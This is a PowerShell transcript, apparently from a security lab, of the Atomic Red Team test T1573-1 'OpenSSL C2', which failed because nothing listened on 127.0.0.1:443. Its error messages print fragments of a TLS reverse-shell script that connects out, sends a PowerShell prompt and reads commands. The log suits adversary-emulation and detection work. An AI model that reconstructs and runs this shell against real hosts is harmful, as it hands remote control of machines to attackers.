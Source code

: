 ﻿# T1573

**********************
Windows PowerShell transcript start
Start time: 20210501220807
Username: DESKTOP-5BHJDMU\student
RunAs User: DESKTOP-5BHJDMU\student
Configuration Name: 
Machine: DESKTOP-5BHJDMU (Microsoft Windows NT 10.0.19042.0)
Host Application: powershell.exe
Process ID: 4340
PSVersion: 5.1.19041.906
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.19041.906
BuildVersion: 10.0.19041.906
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Transcript started, output file is C:\Users\student\Desktop\T1573.md

## Test 1
PS C:\Users\student> Get-Date

Saturday, May 1, 2021 10:08:22 PM


PS C:\Users\student> Invoke-AtomicTest T1573 -TestNumbers 1
PathToAtomicsFolder = C:\Tools\atomics
Executing test:
T1573-1 OpenSSL C2

Done executing test:
T1573-1 OpenSSL C2

New-Object : Exception calling ".ctor" with "2" argument(s): "No connection could
be made because the target machine actively refused it 127.0.0.1:443"
At line:3 char:11
+ $socket = New-Object Net.Sockets.TcpClient('127.0.0.1', '443')
+           ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [New-Object], MethodInvocationE
   xception
    + FullyQualifiedErrorId : ConstructorInvokedThrowException,Microsoft.PowerShell
   .Commands.NewObjectCommand

You cannot call a method on a null-valued expression.
At line:4 char:1
+ $stream = $socket.GetStream()
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : InvokeMethodOnNull

New-Object : Exception calling ".ctor" with "3" argument(s): "Value cannot be null.
Parameter name: innerStream"
At line:5 char:14
+ ... sslStream = New-Object System.Net.Security.SslStream($stream,$false,( ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [New-Object], MethodInvocationE
   xception
    + FullyQualifiedErrorId : ConstructorInvokedThrowException,Microsoft.PowerShell
   .Commands.NewObjectCommand

You cannot call a method on a null-valued expression.
At line:6 char:1
+ $sslStream.AuthenticateAsClient('fake.domain', $null, "Tls12", $false ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : InvokeMethodOnNull

new-object : A constructor was not found. Cannot find an appropriate constructor
for type System.IO.StreamWriter.
At line:7 char:11
+ $writer = new-object System.IO.StreamWriter($sslStream)
+           ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (:) [New-Object], PSArgumentException
    + FullyQualifiedErrorId : CannotFindAppropriateCtor,Microsoft.PowerShell.Comman
   ds.NewObjectCommand

You cannot call a method on a null-valued expression.
At line:8 char:1
+ $writer.Write('PS ' + (pwd).Path + '> ')
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : InvokeMethodOnNull

You cannot call a method on a null-valued expression.
At line:9 char:1
+ $writer.flush()
+ ~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : InvokeMethodOnNull

You cannot call a method on a null-valued expression.
At line:11 char:8
+ while(($i = $sslStream.Read($bytes, 0, $bytes.Length)) -ne 0)
+        ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : InvokeMethodOnNull

PS C:\Users\student> stop-transcript
**********************
Windows PowerShell transcript end
End time: 20210501220844
**********************